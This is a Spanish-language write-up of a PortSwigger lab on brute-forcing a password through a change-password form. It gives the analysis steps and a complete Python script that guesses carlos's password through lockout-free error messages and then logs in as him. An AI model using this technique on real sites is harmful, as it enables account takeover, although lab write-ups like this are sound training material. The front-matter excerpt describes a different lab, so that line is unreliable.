 ```yaml
---
title: "12 Password brute-force via password change"
collection: publications
category: portswigger
permalink: publications/Authentication/12_Password brute-force via password change
excerpt: 'Este laboratorio es vulnerable al envenenamiento por restablecimiento de contraseña. El usuario carlos hará clic por descuido en cualquier enlace de los correos electrónicos que reciba. Para resolver el laboratorio, iniciamos sesión en la cuenta de Carlos.'
date: 2024-12-06
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Password brute-force via password change'
---
```


![logo]({{site.url}}/images/Authentication/authentication-lab-12/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Authentication/authentication-lab-12/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, utilizamos la lista de contraseñas candidatas para realizar un ataque de fuerza bruta a la cuenta de Carlos y acceder a su página  `My account" page.`

## Analisis

Iniciaremos sesión con credenciales validas para ver el funcionamiento del login.

![login]({{site.url}}/images/Authentication/authentication-lab-12/login.png)

Como es muy comun en algunas paginas web, al iniciar sesión por primera vez, nos solicita que cambiemos el password.

![login2]({{site.url}}/images/Authentication/authentication-lab-12/login2.png)

Al hacer muchos intentos vemos que nos bloquea el usuario

![bloque]({{site.url}}/images/Authentication/authentication-lab-12/bloqueo.png)

Volvemos a ingresar con credenciales validas e intentamos esta vez, colocando el password correcto en `Current password` y en las otras casillas passwords, diferentes para que arroje este error. De esta forma no, nos bloquea el usuario y podemos intentar con diferentes passwords.

![Match]({{site.url}}/images/Authentication/authentication-lab-12/match.png)

## Ataque

Realizamos el ataque con el intruder.

![Intruder]({{site.url}}/images/Authentication/authentication-lab-12/intruder.png)

Filtramos por `Length` y vemos un valor diferente

![Respuesta]({{site.url}}/images/Authentication/authentication-lab-12/respuesta.png)

## Login

![Login 3]({{site.url}}/images/Authentication/authentication-lab-12/login3.png)

## Aprobado

![Aprobado]({{site.url}}/images/Authentication/authentication-lab-12/aprobado.png)

```python
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def access_carlos_account(s, url):

    print("(+) Logging into Wiener's account...")
    login_url = url + "/login"
    login_data = {"username": "wiener", "password": "peter"}
    r = s.post(login_url, data=login_data, verify=False, proxies=proxies)

    print("(+) Brute-forcing Carlos's password...")
    change_password_url = url + "/my-account/change-password"
    
    with open('passwords.txt', 'r') as f:
        lines = f.readlines()

    for pwd in lines:
        pwd = pwd.strip('\n')
        change_password_data = {"username":"carlos","current-password": pwd, "new-password-1": "password1", "new-password-2": "password2"}
        r = s.post(change_password_url, data=change_password_data, verify=False, proxies=proxies)
        if "New passwords do not match" in r.text:
            carlos_pwd = pwd
            print("(+) Found Carlos's password: " + carlos_pwd)
            break
    
    if carlos_pwd:
        # login
        login_data = {"username": "carlos", "password": carlos_pwd}
        r = requests.post(login_url, data=login_data, verify=False, proxies=proxies)
        if 'Log out' in r.text:
            print("(+) Successfully logged into Carlos's account.")
        else:
            print("(-) Could not log into Carlos's account.")
            sys.exit(-1)
    else:
        print("(-) Could not find Carlos's password.")
        sys.exit(-1)

def main():
    if len(sys.argv) !=2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    
    s = requests.Session()
    url = sys.argv[1]
    access_carlos_account(s, url)

if __name__ == "__main__":
    main()
```